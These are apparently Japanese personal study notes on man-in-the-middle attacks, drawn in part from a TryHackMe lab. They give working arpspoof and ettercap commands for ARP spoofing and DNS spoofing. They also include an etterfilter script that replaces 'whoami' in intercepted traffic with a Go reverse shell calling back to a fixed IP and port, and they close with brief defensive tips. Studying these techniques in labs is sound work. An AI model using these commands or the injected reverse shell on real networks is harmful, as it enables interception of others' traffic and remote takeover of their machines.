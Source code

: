 # 中間者攻撃（MITH、Man In The Middle）

## 基礎

### apr キャッシュ表示

Windows でも Linux でも使える

```shell
arp -a
```

### ARP スプーフィング

```shell
# パケット転送を有効にする
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
```

```shell
# ルーターのARPキャッシュへの攻撃
arpspoof -i <interface> -t <IP1(router)> <IP2(victim)>

# 別のシェルで、同時に実行する
# VictimのARPキャッシュへの攻撃
arpspoof -i <interface> -t <IP2(victim)> <IP1(router)>
```

Windows ならこれで成功するが、Linux を Victim とした実験では、Victim 側で下記の操作をしないとキャッシュが更新されなかった。  
後述の ettercap による ARP スプーフィングは下記の操作なしでも成功する。

```shell
# ARPを受け入れる
sudo sysctl -w net.ipv4.conf.all.arp_accept=1
# キャッシュをクリアする
sudo ip -s -s neigh flush all
```

## ettercap

スラッシュの意味  
/IP/サブネット範囲（空白の場合は単一 IP）/

### ARP スプーフィング

```shell
sudo ettercap -T -M arp:remote /TargetIP// GatewayIP//

# パケットをキャプチャしてpcapファイルに保存するオプション
sudo ettercap -T -M arp:remote -w capture_file.pcap /TargetIP// GatewayIP//
```

### DNS スプーフィング

```shell
sudo nano /etc/ettercap/etter.dns
```

himitu.com A 192.168.1.100  
\*.himitu.com A 192.168.1.100

```shell
# IPフォワーディング有効化が必要
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
```

```shell
sudo ettercap -T -q -i eth0 -M arp /192.168.11.4// /192.168.11.1// -P dns_spoof
```

コマンドにする必要がなければ、GUI で dns_spoof モジュールを Active にする方が楽。

### 置換

https://tryhackme.com/room/layer2

リバースシェルで whoami を実行している人がいる場合にリバースシェルで置き換える例。

whoami.ecf
```
if (ip.proto == TCP && tcp.src == 4444 && search(DATA.data, "whoami") ) {
    log(DATA.data, "/root/ettercap.log");

    replace("whoami", "echo 'package main;import\"os/exec\";import\"net\";func main(){c,_:=net.Dial(\"tcp\",\"192.168.12.66:6666\");cmd:=exec.Command(\"/bin/sh\");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go &" );

    msg("###### ETTERFILTER: substituted 'whoami' with reverse shell. ######\n");
}
```

```sh
etterfilter whoami.ecf -o whoami.ef

ettercap -T -i eth1 -M arp /192.168.12.10// /192.168.12.20// -F whoami.ef
```

## セキュリティ視点

- Windows は ARP スプーフィングに対してかなり脆弱
- ARP 攻撃の防御機能が付いているスイッチングハブを使えば、攻撃パケットがターゲットまで到達しない
- ネットワーク侵入検知システムで ARP 攻撃を検出するのが有効
